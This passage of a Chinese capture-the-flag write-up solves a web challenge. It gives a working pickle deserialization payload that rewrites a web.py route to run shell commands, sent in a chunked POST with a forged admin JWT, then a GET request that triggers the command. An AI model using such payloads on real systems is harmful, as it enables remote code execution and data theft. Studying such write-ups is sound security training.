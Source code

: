 ```php
dict
S'get'
tR(cbuiltins
globals
)RS'__builtins__'
tRS'exec'
tR(S'app.mapping[0]=("/", lambda: __import__("os").popen('cat /*').read())'
tR.
'''
    # app.add_mapping("/", lambda: "1234444")
    # app.mapping["/"].GET = lambda self: "1234"
    base64_data = base64.b64encode(payload)
    # print(base64_data.decode())
    return base64_data.decode()

data = get_pickle_payload()
get_chunked(data)
```

注意下执行的命令，一开始想反弹shell打不通，发现题目不出网，需要修改web.py的路由进行回显操作

```php
app.mapping[0]=("/", lambda: __import__("os").popen('cat /*').read())
```

以下是整个攻击流程发包：

第一个包，pickle反序列化修改路由

```php
POST /admin HTTP/1.1
Host: 139.224.222.124:30887
Cookie: token=eyJhbGciOiJIUzI1NiIsImtpZCI6ImFwcC5weSIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6IncxbmQiLCJpc2FkbWluIjp0cnVlfQ.OXSneUzPrw4Jt6KfxNVWhdC2QjcNmaeD5ejXeT6VQRY
Transfer-Encoding: CHUNKED
Content-Type: text/plain
Content-Length: 252

fc
Y2J1aWx0aW5zCmdldGF0dHIKKGNidWlsdGlucwpnZXRhdHRyCihjYnVpbHRpbnMKZGljdApTJ2dldCcKdFIoY2J1aWx0aW5zCmdsb2JhbHMKKVJTJ19fYnVpbHRpbnNfXycKdFJTJ2V4ZWMnCnRSKFMnYXBwLm1hcHBpbmdbMF09KCIvIiwgbGFtYmRhOiBfX2ltcG9ydF9fKCJvcyIpLnBvcGVuKCdjYXQgLyonKS5yZWFkKCkpJwp0Ui4K
1c
BackdoorPasswordOnlyForAdmin
0
```

![](https://cdn.nlark.com/yuque/0/2024/png/35980243/1714313627794-97da34c5-b25e-4734-98da-5b354328bb7f.png)

第二个包，访问触发命令执行，回显结果

```php
GET /backend HTTP/1.1
Host: 139.224.222.124:30887
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```
